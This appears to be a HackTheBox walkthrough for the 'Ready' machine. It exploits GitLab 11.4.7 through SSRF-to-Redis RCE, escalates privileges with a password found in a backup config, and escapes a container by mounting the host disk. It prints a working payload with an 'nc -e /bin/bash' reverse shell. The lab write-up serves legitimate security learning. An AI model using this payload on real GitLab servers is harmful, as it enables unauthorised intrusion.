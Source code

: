 ```yaml
---
title: Ready Hackthebox Writeup
date: 2020-12-17 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [linux,container,gitlab,ssrf,rce,gitlab 11.4.7,medium,hackthebox,ready]     # TAG names should always be lowercase
image: /assets/img/ready-hackthebox/ready-pic.jpg
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Ready
IP | 10.10.10.220
Points | 30
Os | Linux
Difficult | Medium
Creator | [bertolis](https://app.hackthebox.eu/users/27897)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Logging in `Port 5080`, which is a `gitlab` signup/signin page.
* Checking the gitlab version, which is `11.4.7`
* Looking for vulnerabilities for that version, found `SSRF - redis - RCE` in gitlab 11.4.7.
* Exploiting the `vulnerability` and getting the `reverse shell`.
* For `Privilege escalation`, found a password file and logged in as `root` in the container.
* **Mounting** the drives present in `/dev` of the container, to get the `Root Flag`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/ready-hackthebox/nmap-automator-2.png)

I accessed port `5080` which shows a gitlab login and signup page.

___
![](/assets/img/ready-hackthebox/accessing-port-5080-3.png)

Along with that I also checked the `/robots.txt`.

___
![](/assets/img/ready-hackthebox/accessing-robots-txt-4.png)

There are a lot of directories but let's first `signup` and then `login`.

___
![](/assets/img/ready-hackthebox/registering-5.png)

The following page is displayed after logging in

___
![](/assets/img/ready-hackthebox/signed-in-6.png)

In such cases, first thing I do is to check the `version` of **Gitlab**. After checking the `help` option in menu, I got this

___
![](/assets/img/ready-hackthebox/help-section-version-7.png)

I googled a bit and got to know that `Gitlab` version `11.4.7` is vulnerable to `RCE via SSRF`.

I found a [`Git Repository`](https://github.com/jas502n/gitlab-SSRF-redis-RCE) and [`Live Overflow`](https://www.youtube.com/watch?v=LrLJuyAdoAg) also explained it in one of his videos.

Now creating a new `Project` in Gitlab by importing it via `git Repo byURL`.

___
![](/assets/img/ready-hackthebox/import-project-by-git-URL-12.png)

Now before pressing the `save` button, setting up proxy and turn on the interceptor on `Burp`.

After `Intercepting` the request, let's replace `import_url` parameter by the following payload:

```

git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash IP PORT\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
/ssrf.git

```
Make sure to check the [POC](https://github.com/jas502n/gitlab-SSRF-redis-RCE) for `RCE via SSRF`, I got the above payload after making some changes. (*Make sure you check the gaps specified in the POC, or else the playload won't work **It didn't work in my case** .*)

___
![](/assets/img/ready-hackthebox/final-req-16.png)

After listening on port 1234, I got a `Reverse shell` as `git`, converted it to an [interactive shell](https://netsec.ws/?p=337)

___
![](/assets/img/ready-hackthebox/tty-shell-19.png)

Got `User Flag`.

___
![](/assets/img/ready-hackthebox/got-user-txt-20.png)

For `Privilege Escalation` I started with manual enumeration and got a `backup folder` in `/opt` directory.
It contained 3 files i.e. 
1. gitlab-secrets.json
2. gitlab.rb
3. docker-compose.yml

After having a look at each of these files, I found that `gitlab.rb` contained some `passwords`.

___
![](/assets/img/ready-hackthebox/few-passwords-23.png)

Simultaneously trying each password, `wW59U!ZKMbG9+*#h` one worked for **sudo su**.

___
![](/assets/img/ready-hackthebox/became-root-but-not-root-text-24.png)

After becoming root, I tried finding out the `root.txt` but there wasn't any because we are in a **container** as *root*.

___
![](/assets/img/ready-hackthebox/no-root-text.png)

After reading this blog on [Unprivileged container builds](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/), I tried the `new mount` technique, but before proceeding further I cheked which drives are present in `/dev` directory with the name of `sda`.

___
![](/assets/img/ready-hackthebox/dev-sda-command-25.png)

There are 4 sda disks present, with the following names:
1. sda
2. sda1
3. sda2
4. sda3

I tried mounting all of them but only `sda2` worked.

___
![](/assets/img/ready-hackthebox/only-sda-test3-worked-27.png)

Entering the `test-sda2` folder and accessing the `root` directory, I got the `Root Flag`.

___
![](/assets/img/ready-hackthebox/got-root-flag-28.png)

___
















